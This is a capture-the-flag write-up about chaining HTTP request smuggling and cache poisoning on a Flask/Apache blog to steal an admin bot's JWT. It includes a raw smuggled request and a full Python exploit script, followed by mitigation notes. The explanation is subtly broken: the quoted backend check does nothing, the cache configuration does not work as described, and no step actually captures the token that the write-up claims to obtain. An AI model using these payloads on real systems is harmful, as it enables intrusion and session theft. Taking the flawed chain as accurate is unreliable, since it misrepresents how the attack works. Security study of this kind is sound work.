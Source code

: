 # Cache Me If You Can - CTF Challenge Writeup

## Challenge Overview
The challenge involves a blog platform with multiple components:
- Frontend React application
- Backend Flask API
- Apache proxy with caching functionality
- Admin bot that views reported posts

The goal is to steal the admin's JWT token by chaining HTTP Request Smuggling and Cache Poisoning vulnerabilities.

## Vulnerability Analysis

### 1. Apache Configuration Analysis
Looking at the Apache configuration, we find two key vulnerabilities:

```apache
# HTTP Smuggling enabled via:
SetEnv proxy-sendchunked 1
SetEnv proxy-sendcl 1
HttpProtocolOptions Unsafe

# Cache poisoning possible via:
Header add X-Cache-Key "%{REQUEST_URI}e:%{HTTP:X-Special-Key}e"
CacheEnable disk /
```

This configuration:
- Allows both Content-Length and Transfer-Encoding headers
- Enables caching when X-Special-Key header is present
- Associates cache with request URI and special key

### 2. Backend Vulnerability
The Flask backend has a vulnerable request smuggling check:

```python
@bp.before_request
def handle_smuggling():
    if request.method == 'POST':
        content_length = request.headers.get('Content-Length')
        if content_length and int(content_length) > 0:
            # Process normally, allowing for smuggling
            pass
```

This code doesn't properly validate the Content-Length vs Transfer-Encoding headers.

### 3. Admin Bot Analysis
The admin bot automatically visits reported posts:

```python
def visit_post(self, post_id):
    driver = webdriver.Chrome(options=self.options)
    
    # Sets admin headers
    driver.execute_cdp_cmd('Network.setExtraHTTPHeaders', {
        'headers': {
            'Authorization': f'Bearer {self.admin_token}',
            'X-Admin-Request': 'true'
        }
    })
```

## Exploitation Chain

### Step 1: HTTP Request Smuggling
First, we craft a request that exploits the HTTP Request Smuggling vulnerability:

```http
POST /api/blog/post/1 HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

XXXX
0

GET /api/blog/post/1 HTTP/1.1
Host: localhost
X-Special-Key: secret_cache_key
Connection: close

```

This request:
- Uses both Content-Length and Transfer-Encoding headers
- Contains a smuggled GET request with X-Special-Key header

### Step 2: Cache Poisoning
The smuggled request includes X-Special-Key to trigger caching:

```python
# Original request returns blog post content
headers = {
    'X-Special-Key': 'secret_cache_key'
}
```

When successful, the response gets cached with the provided X-Special-Key.

### Step 3: Report Post
We report the post to trigger admin visit:

```python
report_data = {"postId": 1}
requests.post("/api/blog/report", json=report_data)
```

### Step 4: Admin Token Theft
When the admin bot visits the reported post:
1. It uses its admin JWT token in the Authorization header
2. The poisoned cache response is served
3. The admin JWT token can be captured

## Full Exploit Script

```python
import requests

def exploit():
    # Login as normal user
    login_data = {
        "username": "user",
        "password": "user123"
    }
    r = requests.post("http://target/api/auth/login", json=login_data)
    token = r.json()['token']

    # Craft smuggled request
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded',
        'Content-Length': '4',
        'Transfer-Encoding': 'chunked',
        'Connection': 'keep-alive',
        'Authorization': f'Bearer {token}'
    }

    data = (
        "XXXX\r\n"
        "0\r\n\r\n"
        "GET /api/blog/post/1 HTTP/1.1\r\n"
        "Host: localhost\r\n"
        "X-Special-Key: secret_cache_key\r\n"
        "\r\n"
    )

    # Send smuggled request
    r = requests.post(
        "http://target/api/blog/post/1",
        headers=headers,
        data=data
    )

    # Report post to trigger admin visit
    headers = {'Authorization': f'Bearer {token}'}
    data = {"postId": 1}
    r = requests.post(
        "http://target/api/blog/report",
        headers=headers,
        json=data
    )

if __name__ == "__main__":
    exploit()
```

## Mitigation
To fix these vulnerabilities:

1. Apache Configuration:
- Remove `SetEnv proxy-sendchunked` and `SetEnv proxy-sendcl`
- Set `HttpProtocolOptions Strict`
- Implement proper cache key validation

2. Backend:
- Properly validate Content-Length and Transfer-Encoding headers
- Implement request validation middleware

3. Admin Bot:
- Implement anti-CSRF measures
- Use secure session handling
- Validate cached responses

## Flag
After successful exploitation, we get the admin's JWT token which contains the flag in its payload.
